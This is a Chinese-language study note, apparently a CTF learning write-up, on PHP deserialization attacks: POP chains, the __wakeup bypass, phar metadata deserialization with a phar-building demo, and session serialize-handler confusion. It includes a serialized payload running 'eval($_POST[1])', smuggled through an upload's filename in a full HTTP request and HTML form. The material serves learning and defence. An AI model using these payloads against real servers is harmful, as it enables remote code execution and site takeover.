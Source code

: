 # php反序列化

## pop链的构造

### 基础

通过替换类中的变量来执行相同函数名字带有敏感操作的函数

所以找反序列化洞的时候一般可以重点关注两个魔术方法：`__wakeup()`(反序列化的初始化调用),`__destruct()`

当然wakeup是可以绕过的，具体可以看看



### 技巧

1.找到反序列化点2.寻找可利用的魔术方法(如`__destruct()`,`__wakeup()`)3.寻找可利用魔术方法调用函数

绕过`__wakeup()`:`CVE-2016-7124`

获取已经包含的文件：
get_included_files()
获取已经定义的类：
get_declared_classes()
加载所有类
__autoload()

## php原生类反序列化

### phar

 https://blog.zsxsoft.com/post/38?from=timeline&isappinstalled=0 

https://paper.seebug.org/680/

#### 原理

部分文件操作函数用phar伪协议读取phar文件会反序列化phar文件中的meta-data 部分的序列化内容

#### phar文件结构

- a **stub**
  可以理解为一个标志，格式为`xxxxxxxxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件。

- a **manifest** describing the contents
  phar文件本质上是一种压缩文件，其中每个被压缩文件的权限,属性等信息都放在这部分。这部分还会以**序列化**的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。

- the file **contents**
  被压缩文件的内容。

- [optional] a **signature** for verifying Phar integrity (phar file format only)

  签名，放在文件末尾

#### 影响函数

```php
fileatime|filectime|file_exists|file_get_contents|file_put_contents|file|filegroup|fopen|fileinode|filemtime|fileowner|fileperms|is_dir|is_executable|is_file|is_link|is_readable|is_writable|is_writeable|parse_ini_file|copy|unlink|stat|readfile|md5_file|filesize|mime_content_type
```

```
fileatime / filectime / filemtimestat / fileinode / fileowner / filegroup / filepermsfile / file_get_contents / readfile / fopen / file_exists / is_dir / is_executable / is_file / is_link / is_readable / is_writeable / is_writable / parse_ini_file / unlink / copy / include

exif_thumbnail / exif_imagetype / imageloadfont / imagecreatefrom
hash_hmac_file / hash_file / hash_update_file / md5_file / sha1_file

get_meta_tagsget_headers
getimagesize / getimagesizefromstring

finfo_file/finfo_buffer/mime_content_type
```



#### phar文件生成demo

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar,phar伪协议不用phar后缀
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub,只要后面部分为__HALT_COMPILER(); ?>就行,开头可以随意
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

## session的序列化引擎配置错误导致的命令执行

### 利用条件

1. php.ini中设置session.serialize_handler为php_serialize
2. 启动session
3. 某个网页的session.serialize_handler为php

### 原理

在php.ini中存在三项配置项：

```
session.save_path=""   --设置session的存储路径
session.save_handler="" --设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.auto_start   boolen --指定会话模块是否在请求开始时启动一个会话,默认为0不启动
session.serialize_handler   string --定义用来序列化/反序列化的处理器名字。默认使用php
```

`session.serialize_handler`是用来设置session的序列话引擎的，除了默认的PHP引擎之外，还存在其他引擎，不同的引擎所对应的session的存储方式不相同。

- php_binary:存储方式是，键名的长度对应的ASCII字符+键名+经过serialize()函数序列化处理的值
- php:存储方式是，键名+竖线+经过serialize()函数序列处理的值
- php_serialize(php>5.5.4):存储方式是，经过serialize()函数序列化处理的值

我们这里主要关注php和php_serialize(php>5.5.4)

我们可以发现,如果我们存储用的引擎是php_serialize,而读取用的引擎是php时,我们可以构造如`$_SESSION['a']='|O:5:"OowoO":1:{s:4:"mdzz";s:16:"eval($_POST[1]);";}'`

,这个在文件中的存储为

```
a:1:{s:2:"en";s:43:"|O:5:"OowoO":1:{s:4:"mdzz";s:10:"phpinfo();";}
```

这样如果用php引擎解析的话,就不被理解成:键名为`a:1:{s:2:"en";s:43:"`，值为`O:5:"OowoO":1:{s:4:"mdzz";s:10:"phpinfo();";}`反序列化的结果,也就是一个对象

这样我们就成功的反序列化了

### 和它搭档的php配置



![image.png](https://i.loli.net/2019/10/11/8ajOXlMD9fybx6W.png)

> 当一个上传在处理中，同时POST一个与INI中设置的session.upload_progress.name同名变量时，当PHP检测到这种POST请求时，它会在$_SESSION中添加一组数据。所以可以通过Session Upload Progress来设置session。



eg.

```
POST /phpinfo.php HTTP/1.1
Host: web.jarvisoj.com:32784
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: multipart/form-data; boundary=---------------------------168279961491
Content-Length: 1067
DNT: 1
Connection: close
Referer: http://127.0.0.1/
Cookie: PHPSESSID=d0vqrh2ejn9el54i1en9cnev43
Upgrade-Insecure-Requests: 1

-----------------------------168279961491
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
-----------------------------168279961491
Content-Disposition: form-data; name="aaa"; filename='|O:5:"OowoO":1:{s:4:"mdzz";s:16:"eval($_POST[1]);";}'
Content-Type: text/html

aaaaaa
-----------------------------168279961491--
```

在本地测试发现filename和name 还有一些其他的会写入到session里

产生这种情况的html页面

```html
<form action="http://web.jarvisoj.com:32784/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

